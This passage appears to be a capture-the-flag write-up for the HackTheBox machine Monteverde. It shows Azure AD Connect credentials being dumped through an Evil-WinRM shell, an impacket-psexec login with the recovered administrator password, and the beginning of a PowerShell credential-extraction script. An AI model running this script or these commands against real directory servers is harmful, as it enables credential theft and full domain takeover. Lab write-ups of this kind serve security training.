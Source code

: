 ```powershell
Manifest   3.0.0.0    Microsoft.PowerShell.Security       {ConvertFrom-SecureString, ConvertTo-SecureString, Get-Acl, Get-AuthenticodeSignature...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}


*Evil-WinRM* PS C:\Users\mhope\.Azure> Azure-ADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
*Evil-WinRM* PS C:\Users\mhope\.Azure> 

```


# Shell as administrator

```bash
impacket-psexec 'administrator':'d0m@in4dminyeah!'@10.10.10.172
```

![[Challenge/HTB Challenge/Monteverde/IMG/007.png]]
# PWNED 


##  ADSyn Script for dump credential  in AZURE

```powershell
Function Azure-ADConnect {param($db,$server)
$help = @"
.SYNOPSIS
    Azure-ADConnect
    PowerShell Function: Azure-ADConnect
    Author: Luis Vacas (CyberVaca)
    Based on: https://blog.xpnsec.com/azuread-connect-for-redteam/

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION

.EXAMPLE
    Azure-ADConnect -server 10.10.10.10 -db ADSync

    Description
    -----------
    Extract credentials from the Azure AD Connect service.

"@
if ($db -eq $null -or $server -eq $null) {$help} else {
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server = $server; Database = $db; Initial Catalog=$db; 
Integrated Security = True;"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

```